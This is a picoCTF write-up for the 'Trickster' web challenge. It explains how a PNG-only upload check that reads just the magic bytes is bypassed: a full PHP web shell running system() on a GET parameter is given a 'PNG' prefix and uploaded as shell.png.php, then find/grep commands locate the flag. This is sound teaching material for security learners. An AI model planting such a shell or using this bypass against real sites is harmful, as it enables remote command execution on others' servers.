





# Trickster

Category: Web Exploitation  
Difficulty: Medium

## Objective

I found a web app that can help process images: PNG images only! Try it.

## Steps

This website claims to only accept PNG files. Uploading a non-PNG file with a modified .png extension causes an error like the following, where a hex code is generated - this appears to be the hex string of the first characters of the uploaded file.


The error message implies the web app only checks for the first 4 bytes of the signature. I thought that the attack vector may be the fact that it can accept polyglot files, files valid in multiple formats. I tried creating a test payload and combining it with a PNG, creating a valid PNG file with extra content at the end. This file did in fact pass the PNG check.


However, it was unclear what to do from here. At this point I felt like I may have been on the wrong track and should take a step back and see if I can learn more about this website.

I checked to see if this site had a `robots.txt`, which is a text file used by website owners to give instructions about their site to search engine crawlers.



This tells us that there is an `instructions.txt` file as well as an `/uploads/` endpoint.



The instructions confirms my suspicions - it checks for the signature bytes of the file to verify it matches "PNG" (`50 4E 47`), then stores it, presumably in `/uploads/`.

Now, knowing that we can upload something as long as it starts with the magic bytes, and then access it at the endpoint, we can try uploading a web shell. I copied this web shell PHP script and added "PNG" to the beginning:

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

I renamed the file to `shell.png.php` and uploaded it into the web app. It was accepted as a valid file. Now, going to `/uploads/shell.png.php` brings up a command line:



I tried grep'ing for "picoCTF" from the root directory, but got a lot of permission denied errors.

`grep -r "picoCTF" /`


I tried to redirect the standard error (stderr) to /dev/null, but the redirection did not work. Running the command as sudo is also not an option.

Since searching within file contents (including binary files) is producing too many errors, perhaps the find command would work better as it would skip binary files.

I tried running `find / -type f -exec grep -H "picoCTF" {} \;`, which may have been too computationally intensive and did not return a result.

Finally, I decided to try searching within text file types only, as that would be one of the most likely file types for storing the flag. Indeed, the flag was in a text file!

`find / -type f -name "*.txt" -exec grep -H "picoCTF" {} \;`

